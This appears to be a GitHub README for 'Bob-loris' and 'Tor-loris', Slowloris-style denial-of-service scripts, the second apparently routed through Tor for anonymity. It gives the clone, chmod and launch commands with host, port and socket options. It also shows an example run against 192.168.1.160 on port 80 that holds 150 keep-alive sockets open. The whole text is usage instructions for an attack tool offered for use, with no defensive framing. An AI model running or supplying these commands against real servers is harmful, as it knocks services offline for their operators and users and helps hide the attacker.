 # Bob-Loris

**Setup**

       $ git clone https://github.com/LukeBob/Bob-loris.git
 
        $ cd Bob-loris
 
        $ chmod 755 Bob-loris.py
 
        $ ./Bob-loris.py -H <host> -P <port> -M <max-sockets Default=150>
    
**Example**
          
        $ ./Bob-loris.py -H 192.168.1.160 -P 80 -M 149          

           ____        _       _            _     
          |  _ \      | |     | |          (_)    
          | |_) | ___ | |__   | | ___  _ __ _ ___ 
          |  _ < / _ \| '_ \  | |/ _ \| '__| / __|
          | |_) | (_) | |_) | | | (_) | |  | \__ \
          |____/ \___/|_.__/  |_|\___/|_|  |_|___/
                                         
                                         
          
         max socket option too low. using Default 150

	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150
	   Sending Keep Alive Headers... Socket Count: 150

 # Tor-Loris
 
**Setup**

       $ git clone https://github.com/LukeBob/Bob-loris.git
 
        $ cd Bob-loris
 
        $ chmod 755 Tor-loris.py
 
        $ ./Tor-loris.py -H <host> -P <port> -M <max-sockets Default=150>



